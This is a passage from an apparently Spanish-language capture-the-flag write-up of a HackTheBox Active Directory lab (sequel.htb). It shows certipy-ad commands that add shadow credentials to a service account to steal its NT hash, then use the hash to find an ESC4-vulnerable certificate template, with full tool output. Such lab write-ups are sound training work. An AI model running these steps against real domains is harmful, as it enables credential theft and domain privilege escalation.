 ```
certipy-ad shadow auto -account 'ca_svc' -u ryan -p WqSZAF6CysDQbGb3 -dc-ip 10.129.1.36
```

```
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '592fbb63-59ea-c1ef-044f-79067a13afd6'
[*] Adding Key Credential with device ID '592fbb63-59ea-c1ef-044f-79067a13afd6' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID '592fbb63-59ea-c1ef-044f-79067a13afd6' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'ca_svc@sequel.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ca_svc.ccache'
[*] Wrote credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': 3b181b914e7a9d5508ea1e20bc2b7fce
```

Evito tener que cambiar la contraseña de nuevo.

Con `certipy-ad find` se encuentra una vulnerabilidad `ESC4` en la plantilla `DunderMifflinAuthentication`:

```
certipy-ad find -vulnerable -username ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -dc-ip 10.129.1.36 -stdout
```

```
<...SNIP...>

Certificate Templates
  0
    Template Name                       : DunderMifflinAuthentication
    Display Name                        : Dunder Mifflin Authentication
    Certificate Authorities             : sequel-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    
    <...SNIP...>
    
        Full Control Principals         : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Cert Publishers
        Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Cert Publishers
        Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
                                          SEQUEL.HTB\Cert Publishers
        Write Property Enroll           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
    [+] User Enrollable Principals      : SEQUEL.HTB\Cert Publishers
    [+] User ACL Principals             : SEQUEL.HTB\Cert Publishers
```